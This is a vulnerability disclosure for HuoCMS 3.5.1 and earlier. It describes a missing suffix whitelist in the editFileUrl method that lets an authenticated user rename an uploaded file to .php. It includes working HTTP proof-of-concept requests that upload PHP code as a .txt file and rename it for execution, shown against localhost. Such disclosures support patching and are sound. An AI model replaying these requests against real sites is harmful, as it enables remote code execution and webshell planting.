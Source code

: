 ## BUG_Author: 
yggcwhat

## Affected version: 
Huocms

## Vendor:
https://huocms.com/


## Source Code Address: 
https://gitee.com/digital-flag/huocms

## Vulnerability File: 
AttachmentController.php

## Affected Version：
HuoCMS - <=V3.5.1

## Description:

app ->controller ->backend -> AttachmentController.php:editFileUrl()

The suffix of $newPathUrl in the "copy" function called in the "editFileUrl" method is not verified by the whitelist, which can be exploited to modify the file name. The suffix is controlled by the passed-in suffix_url and is controllable.


![image](https://github.com/user-attachments/assets/5cc40ef7-0d5f-4249-837f-5159475c2cee)

Step 1: Upload a file with a whitelisted suffix that contains malicious content in advance, and record the file ID at the same time.
```
POST /attachment/uploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization:  token
Content-Type: multipart/form-data; boundary=----geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Length: 581
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin.php/Index/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="type"

2
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="attachment_cate_id"

0
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="reduce_img"


------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

<?php
echo "hello word!"
?>
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9--
```
![image](https://github.com/user-attachments/assets/aef0412a-b5a5-4253-b582-61b84735ad69)


Based on the content, the ID is determined to be 67.


Step 2: Then construct a request based on the editFileUrl, rename the one with id 67, where the copy function in the vulnerability's editFileUrl is called to rename the file with an illegal suffix.

```
POST /attachment/editFileUrl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: token
Content-Length: 83
Origin: http://127.0.0.1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=67&name=test&prefix_url=&suffix_url=file/20250416/test.php&description=123123123
```
![image](https://github.com/user-attachments/assets/f1dd77b0-c2ad-46aa-ae31-50da63c86375)


Note: To modify it again, you need to change the filename of `suffix_url` to bypass the `copy` function triggered by `$oldPathUrl != $newPathUrl` inside `editFileUrl`.


Access URL:  http://127.0.0.1/storage/file/20250416/test.php


![image](https://github.com/user-attachments/assets/5f1cdc2f-ef6a-459d-bdd5-7d8d7d550626)

## Reference：
http://huocms.com
https://github.com/yggcwhat/CVE-2025-46080/edit/main/README.md
https://www.huocms.com/

